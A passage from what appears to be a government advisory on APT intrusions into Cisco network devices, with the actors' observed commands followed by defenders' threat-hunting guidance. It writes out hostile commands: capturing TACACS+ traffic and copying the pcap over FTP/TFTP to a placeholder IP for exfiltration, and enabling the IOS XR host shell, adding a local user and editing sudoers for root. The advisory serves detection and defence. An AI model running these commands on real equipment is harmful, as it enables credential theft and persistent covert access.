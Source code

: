monitor capture mycap export bootflash:tac.pcap Export PCAP to file, staging for exfiltration copy bootflash:tac.pcap ftp://&lt;domain/service&gt;:*@&lt;IP&gt; Exfiltration copy bootflash:tac.pcap tftp://&lt;IP&gt;/tac.pcap Host-level indicators If console logging or visibility of remote FTP/TFTP from a network appliance are available, the following host-level indicators may assist with detecting activity:&nbsp; Capture name: 'mycap'&nbsp; Capture rule: 'match ipv4 protocol tcp any any eq 49'&nbsp; Exported pcap filename: 'tac.pcap' tftp remote filename: 'tac.pcap'&nbsp; tftp remote IP: [remote IP] &nbsp; Enabling SSH access to the underlying Linux host on IOS XR Cisco IOS XR (64-bit) is a Linux-based network operating system built on a Yocto-based Wind River Linux distribution. IOS XR is typically administered via the IOS XR CLI over SSH on port TCP/22 or via console.&nbsp; The built-in sshd_operns service exposes an additional SSH endpoint on the host Linux. When enabled, it listens on TCP/57722 and provides direct shell access to the host OS. Root logins are not permitted to this service, as only non-root accounts can authenticate. On IOS XR, sshd_operns is disabled by default and must be explicitly started (e.g., service sshd_operns start). Persistence across reboots requires enabling at init ( chkconfig ) or equivalent. In observed intrusions, the APT actors enabled sshd_operns , created a local user, and granted it sudo privileges (e.g., by editing /etc/sudoers or adding a file under /etc/sudoers.d/ ) to obtain root on the host OS after logging in via TCP/57722.&nbsp; The commands listed in Table 2 were executed from the host Linux bash shell as root. Table 2 : Commands to add user to sudoers Command&nbsp;&nbsp;&nbsp;&nbsp; Description service sshd_operns start Starting the sshd_operns service useradd cisco password cisco Adding a new user sudo vi /etc/sudoers Adding the new user to sudoers chmod 4755 /usr/bin/sudo As 4755 is the default permissions for sudo, it is unclear why the actors executed this command Threat hunting guidance The authoring agencies encourage network defenders of critical infrastructure organizations, especially telecommunications organizations, to perform threat hunting, and, when appropriate, incident response activities. If malicious activity is suspected or confirmed, organizations should consider all mandatory reporting requirements to relevant agencies and regulators under applicable laws and regulations, and any additional voluntary reporting to appropriate agencies, such as cybersecurity or law enforcement agencies who can provide incident response guidance and assistance with mitigation. See the Contact information section for additional reporting information. The malicious activity described in this advisory often involves persistent, long-term access to networks where the APT actors maintain several methods of access. Network defenders should exercise caution when sequencing defensive measures to maximize the chance of achieving full eviction, while remaining compliant with applicable laws, regulations, and guidance on incident response and data breach notifications in their jurisdictions. Where possible, gaining a full understanding of the APT actors’ extent of access into networks followed by simultaneous measures to remove them may be necessary to achieve a complete and lasting eviction. Partial response actions may alert the actors to an ongoing investigation and jeopardize the ability to conduct full eviction. Incident response on one network may also result in the APT actors taking measures to conceal and maintain their access on additional compromised networks, and potentially disrupt broader investigative and operational frameworks already in progress. The APT actors often take steps to protect their established access, such as compromising mail servers or administrator devices/accounts to monitor for signs that their activity has been detected. Organizations should take steps to protect the details of their threat hunting and incident response from APT actor monitoring activities. The authoring agencies strongly encourage organizations to conduct the following actions for threat hunting: Monitor configurations changes Pull all configurations for running networking equipment and check for differences with latest authorized versions. Review remote access configurations for proper application of ACL and transport protocols. Review ACLs for any unauthorized modifications. If SNMP is being used, ensure networking equipment is configured to use SNMPv3 with the appropriate authentication and privacy configurations set, as defined in the User-based Security Model (USM) and the View-based Access Control Model (VACM). Verify the authenticity of any configured local accounts and their permission levels. Check all routing tables to ensure that all routes are authorized and expected. Verify that any PCAP commands configured on networking equipment are authorized. Monitor virtualized containers If networking equipment has the capability to run virtualized containers, ensure that all running virtualized containers are expected and authorized. For devices that support Cisco Guest Shell (IOS XE and NX-OS), do not rely on device syslog alone to detect actor activity. Use a combination of device syslog, AAA command accounting, container (Guest Shell) logs, and off-box flow/telemetry. Capture lifecycle and CLI activity with AAA accounting (TACACS+/RADIUS) for configuration/exec commands so that enable/disable and entry actions are recorded. For IOS XE, hunt for guestshell enable , guestshell run bash , and guestshell disable . On NX-OS, hunt for guestshell enable , run guestshel l, and guestshell destroy . Alert on unexpected use of chvrf (running commands under a different VRF) and, on NX-OS, use of dohost (container invoking host CLI). Monitor network services and tunnels Monitor for
